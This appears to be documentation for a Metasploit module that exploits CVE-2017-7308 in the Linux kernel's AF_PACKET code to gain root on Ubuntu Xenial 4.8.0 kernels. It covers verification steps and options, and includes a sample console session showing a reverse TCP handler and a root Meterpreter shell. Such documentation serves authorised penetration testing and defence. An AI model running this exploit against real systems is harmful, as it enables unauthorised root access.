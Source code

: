 ## Description

  This module exploits a heap-out-of-bounds write in the `packet_set_ring`
  function in `net/packet/af_packet.c` (`AF_PACKET`) in the Linux kernel
  to execute code as `root` (CVE-2017-7308).

  The bug was initially introduced in 2011 and patched in version 4.10.6,
  potentially affecting a large number of kernels; however this exploit
  targets only systems using Ubuntu Xenial kernels 4.8.0 < 4.8.0-46,
  including Linux distros based on Ubuntu Xenial, such as Linux Mint.

  The target system must have unprivileged user namespaces enabled and
  two or more CPU cores.

  Bypasses for SMEP, SMAP and KASLR are included. Failed exploitation
  may crash the kernel.


## Vulnerable Application

  This module has been tested successfully on Linux Mint 18 (x86_64)
  with kernel versions:

  * 4.8.0-34-generic
  * 4.8.0-36-generic
  * 4.8.0-39-generic
  * 4.8.0-41-generic
  * 4.8.0-42-generic
  * 4.8.0-44-generic
  * 4.8.0-45-generic


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use af_packet_packet_set_ring_priv_esc`
  4. `set SESSION [SESSION]`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

### SESSION

  Which session to use, which can be viewed with `sessions`

### WritableDir

  A writable directory file system path. (default: `/tmp`)

### COMPILE

  Options: `Auto` `True` `False` (default: `Auto`)

  Whether the exploit should be live compiled with `gcc` on the target system,
  or uploaded as a pre-compiled binary.

  `Auto` will first determine if `gcc` is installed to compile live on the system,
  and fall back to uploading a pre-compiled binary.


## Scenarios

  ```
  msf > use exploit/linux/local/af_packet_packet_set_ring_priv_esc 
  msf exploit(linux/local/af_packet_packet_set_ring_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/af_packet_packet_set_ring_priv_esc) > run
  
  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [*] Writing '/tmp/.ZxgWSP2O1.c' (19378 bytes) ...
  [*] Writing '/tmp/.jfPl4uPX2' (207 bytes) ...
  [*] Launching exploit...
  [*] Sending stage (857352 bytes) to 172.16.191.207
  [*] Meterpreter session 2 opened (172.16.191.188:4444 -> 172.16.191.207:41882) at 2018-04-27 19:55:21 -0400
  [+] Deleted /tmp/.ZxgWSP2O1.c
  [+] Deleted /tmp/.ZxgWSP2O1
  [+] Deleted /tmp/.jfPl4uPX2
  
  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.207
  OS           : LinuxMint 18 (Linux 4.8.0-45-generic)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  ```

